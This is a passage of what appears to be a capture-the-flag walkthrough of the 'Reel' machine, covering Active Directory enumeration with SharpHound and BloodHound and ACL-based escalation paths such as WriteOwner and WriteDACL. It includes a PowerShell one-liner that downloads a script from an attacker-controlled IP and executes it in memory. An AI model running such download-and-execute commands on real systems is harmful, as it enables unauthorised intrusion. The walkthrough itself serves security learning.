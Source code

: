 `powershell "IEX(New-Object Net.webClient).downloadString('http://10.10.16.7:8000/SharpHound.ps1')"`

### A note on `SharpHound.ps1` output:

`Sharphound.ps1` will generate version 3 `JSON` files. Those *will not be compatible* with the most recent version of **BloodHound** (currently it's at 4).

![sharphound-ps1-json-version](/assets/Reel/sharphound-ps1-json-version.jpg)

*To get it working,* we will need to get `BloodHound` version 3 from the **Official Releases Page** (https://github.com/BloodHoundAD/BloodHound/releases/tag/3.0.3)

### Investigating Possible Exploit Paths

*Upon looking at* `BloodHound`'s *output,* we notice that `nico` can set the `owner` for user `herman`

![nico-can-write-owner](/assets/Reel/nico-can-write-owner.jpg)

*Simulating having owned the user* `herman`, we notice we can reach the `backup_admins` group.

This is because the `herman` user has a `WriteDACL` right over it.

![herman-has-write-dacl](/assets/Reel/herman-has-write-dacl.jpg)
